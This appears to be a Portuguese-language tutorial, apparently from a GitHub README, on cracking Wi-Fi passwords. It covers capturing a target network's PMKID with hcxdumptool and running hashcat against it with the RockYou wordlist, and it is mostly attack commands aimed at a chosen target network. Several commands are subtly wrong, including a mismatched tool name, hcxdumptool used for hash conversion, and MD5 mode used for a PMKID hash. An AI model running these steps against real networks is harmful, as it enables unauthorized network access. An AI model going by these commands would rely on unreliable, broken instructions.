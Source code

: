 É importante eu ressaltar para você que está lendo esse conteúdo e não tem a minima ideia das terminologias, que **exploração** é quando iniciamos a fase de analise e de ataque de um determinado alvo (ou target, que vem do inglês).

Inicie um scan redes Wi-Fi usando o comando `airdump-ng` e obtenha o **BSSID** do alvo.

'''bash
airmon-ng <interface>
'''

Com a rede alvo aparecendo, vamos agora criar um **arquivo BPF** com o **BSSID** da rede alvo.
---
## Criando BPF

Para **criar o arquivo** BPF, podemos usar o próprio `hcxdumptool` com o BSSID capturado anteriormente.

'''bash
hcxdumptool --bpfc="wlan addr3 <BSSID>" > SSID.bpf
'''

Após criar o arquivo, basta usa-lo como **filtro de redes** Wi-Fi.

'''bash
hcxdumptool --rds=1 -F --bpf=SSID.bpf -i <interface> -w outfile.pcapng
'''
---
## Convertendo *HASH*

Observer que na **tela anterior** contém um **+** ao lado da rede, isso indica a captura do PMKID. Porém, é necessário **obter o hash** do arquivo pcapng.

'''bash
hcxdumptool -o pmkid.hash dump.pcapng
'''
---
## Quebrando *HASH*

Para converter o **HASH** obtido para a senha real, vamos usar a ferramenta `HASHCAT` ou o `JOHN, THE RIPPER` (você escolhe a que for melhor para você).

Contexto do comando para HASH MD5:
hashcat -m [ID DO HASH] -a [MODO DE ATAQUE] [ARQUIVO COM A HASH] [WORDLIST]

No nosso caso, você precisa está com a **wordlist RockYou**, pode ser achada facilmente no Github.

'''bash
hashcat -m 0 -a 0 pmkid.hash rockyou.txt
'''

Uma outra linha que pode auxiliar:
'''bash
sudo apt install hashcat-utils
cap2hccapx pcapng.pcapng captura.hccapx
hashcat -m 22000 -a 0 pmkid.hccapx /usr/share/wordlists/rockyou.txt --force
hashcat -m 22000 pmkid.hccapx --show
'''
